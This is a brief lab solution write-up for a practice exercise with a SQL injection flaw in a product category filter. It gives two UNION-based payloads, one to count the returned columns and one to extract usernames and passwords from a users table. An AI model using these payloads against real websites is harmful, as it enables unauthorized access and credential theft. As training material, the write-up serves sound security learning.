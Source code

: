
this lab contains a SQL inejction vulnerability in the product category filter, it is susceptible to UNION attacks

the database contains a table called 'users', with columns called 'username' and 'password'

## Solution:

1.\ finding how many columns are being returned

	' UNION SELECT NULL,NULL-- 
[trial and error in the amount of columns selected until the application doesn't return an error]

2.\ retrieving username and password from users table

	' UNION SELECT username,password FROM users--
